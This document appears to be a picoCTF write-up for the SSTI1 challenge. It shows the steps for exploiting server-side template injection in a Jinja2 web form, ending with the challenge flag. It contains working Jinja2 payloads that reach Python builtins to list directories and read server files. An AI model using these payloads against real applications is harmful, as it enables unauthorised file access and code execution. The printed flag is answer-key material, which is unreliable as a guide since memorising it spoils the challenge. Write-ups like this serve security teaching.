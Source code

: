 # 🧠 SSTI1 – Server-Side Template Injection

## 🧩 Challenge Description

A web form takes user input and reflects it back into the page.  
Suspicion: the server uses a vulnerable template engine (e.g. Jinja2).  
Objective: exploit the SSTI to retrieve a flag stored in the server filesystem.

---

## 🛠️ Tools Used

- Browser (Firefox/Chrome)
- Jinja2 SSTI payloads
- [PayloadAllTheThings – SSTI Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

---

## 🧪 Exploitation Steps

### 🧪 Step 1 – Confirm SSTI

Entered:
```
{{7*7}}
```
✅ Confirms that template expressions are evaluated → SSTI vulnerability exists.  

![Step 1 – SSTI Reflection](../screenshots/ssti1-reflection.png)

---

### 🗂 Step 2 – List Root Directory

Payload:
```
{{config.__class__.__init__.__globals__['__builtins__']['__import__']('os').listdir('/')}}
```
✅ Identified a suspicious directory.  

![Step 2 – List Root](../screenshots/ssti1-root-dir.png)

---

### 📂 Step 3 – Explore `/challenge/` Directory

Payload:
```
{{config.__class__.__init__.__globals__['__builtins__']['__import__']('os').listdir('/challenge')}}
```
🎯 Located the `flag` file.  

![Step 3 – Challenge Folder](../screenshots/ssti1-challenge-dir.png)

---

### 🏁 Step 4 – Read the Flag File

Payload:
```
{{config.__class__.__init__.__globals__['__builtins__']['open']('/challenge/flag').read()}}
```
📥 Extracted the flag.  

![Step 4 – Flag Found](../screenshots/ssti1-flag-read.png)

---

## 🏁 Flag

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}
```

---

✅ This challenge highlights the risk of rendering unescaped user input using server-side template engines like Jinja2.

